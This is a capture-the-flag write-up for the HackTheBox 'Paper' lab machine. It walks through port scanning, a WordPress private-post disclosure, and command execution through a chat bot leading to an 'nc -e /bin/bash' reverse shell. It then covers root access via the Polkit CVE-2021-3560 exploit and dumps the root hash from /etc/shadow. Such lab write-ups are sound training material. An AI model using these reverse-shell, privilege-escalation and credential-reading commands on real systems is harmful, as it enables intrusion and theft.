# Paper - HackTheBox - Writeup
Linux, 20 Base Points, Easy



## Machine


 
## TL;DR

To solve this machine, we begin by enumerating open services using ```namp``` – finding ports ```22```, ```80``` and ```443```.

***User***: By observing the HTTP response we found ```office.paper``` domain on ```X-Backend-Server``` header, Found it's run behind ```WordPress version 5.2.3``` and by using ```WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts``` exploit we found URL for rocket chat, Inside the chat we found a chatbot, Using ```list``` directory command we found ```scripts``` directory, Using that we found ```run``` command which allows us to run commands, Using that we get a reverse shell as ```dwight``` user.

***Root***: By enumerating we found Polkit running, Using ```CVE-2021-3560``` we get a root shell.




## Paper Solution

### User

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Paper]
└──╼ $ nmap -sV -sC -oA nmap/Paper 10.10.11.143
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-10 23:38 IST
Nmap scan report for 10.10.11.143
Host is up (0.31s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: HTTP Server Test Page powered by CentOS
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: HTTP Server Test Page powered by CentOS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1

```

By observing port ```80``` and ```443``` we get the following web page:



If we are sending the HTTP request using [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater/using) we can see the following HTTP response:
```HTTP
HTTP/1.1 403 Forbidden
Date: Thu, 10 Feb 2022 22:20:56 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Backend-Server: office.paper
Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
ETag: "30c0b-5c5c7fdeec240"
Accept-Ranges: bytes
Content-Length: 199691
Connection: close
Content-Type: text/html; charset=UTF-8
...
```

We can see the ```X-Backend-Server``` header which contains ```office.paper```, Let's add it to ```/etc/hosts``` file.

And now by browsing to [http://office.paper](http://office.paper) we get the following web page:



Using ```wpscan``` we found this is ```WordPress version 5.2.3```, Let's use [WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts ](https://www.exploit-db.com/exploits/47690) by browsing to this URL [http://office.paper/?static=1](http://office.paper/?static=1) we get this secret post:



According to the secret, Let's browse to [http://chat.office.paper/register/8qozr226AhkCHZdyY](http://chat.office.paper/register/8qozr226AhkCHZdyY) (Add the subdomain before to ```/etc/hosts```):

And after successful register we get the following page:



By clicking on the ```#General``` chat room we can see the following content chat:



As we can see, there is a chatbot, Let's send a private message to the chatbot (the chat room is read-only so we have to send a private message), By sending the message ```recyclops help``` we get the following content:



We can use also ```list``` command to get the content of directories, Using that we get the content of the ```scripts``` directory of the chatbot by sending ```recyclops list ../hubot/scripts```:



Let's observe ```run.js``` file by sending ```recyclops file ../hubot/scripts/run.js```:



Means that we can run any command we want, Let's get a reverse shell by running ```recyclops run nc 10.10.14.14 4444 -e /bin/bash```:


```console
┌─[evyatar@parrot]─[/hackthebox/Paper]
└──╼ $ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.14] from office.paper [10.10.11.143] 42608
whoami
dwight
python3 -c 'import pty; pty.spawn("/bin/bash")'
[dwight@paper hubot]$ cd ..
cd ..
[dwight@paper ~]$ ls
ls
bot_restart.sh	hubot  sales  user.txt
[dwight@paper ~]$ cat user.txt
cat user.txt
6f7bd067ed613459555a00791eeba721
```

And we get the user flag ```6f7bd067ed613459555a00791eeba721```.

### Root

By running [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) we found [Polkit](https://gitlab.freedesktop.org/polkit/polkit) running, Polkit is a toolkit for defining and handling authorizations.  It is
used for allowing unprivileged processes to speak to privileged
processes.

We found the following [exploit ](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation) to Polkit, Let's run it:
```console
[dwight@paper tmp]$ [dwight@paper tmp]$ bash poc.sh
bash poc.sh

[!] Username set as : secnigma
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username secnigma...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username secnigma  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - secnigma
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper tmp]$
```

Let's try to change to user ```secnigma``` with the password ```secnigmaftw``` and run ```sudo bash```:
```console
[dwight@paper tmp]$ su secnigma
su secnigma
Password: secnigmaftw
[secnigma@paper tmp]$ sudo bash
sudo bash
[sudo] password for secnigma: secnigmaftw

[root@paper tmp]# id && hostname
id && hostname
uid=0(root) gid=0(root) groups=0(root)
paper
[root@paper tmp]# cat /root/root.txt
cat /root/root.txt
5b268d1cdea15d04bbebb6eb17ce8ee2

```

And we get the root flag ```5b268d1cdea15d04bbebb6eb17ce8ee2```.


PDF password:
```console
[root@paper ~]# cat /etc/shadow | grep root | cut -d':' -f2
cat /etc/shadow | grep root | cut -d':' -f2
$6$rfCS6Tb3sgIjkTux$UhBHq5wWPncgtVnltzm3Squ9KBcX3/9k0y6o8AG6lNSKOobHatUWFzPS1J8uuh/QML6kyhZ10ngXa5nCBLDkL.
```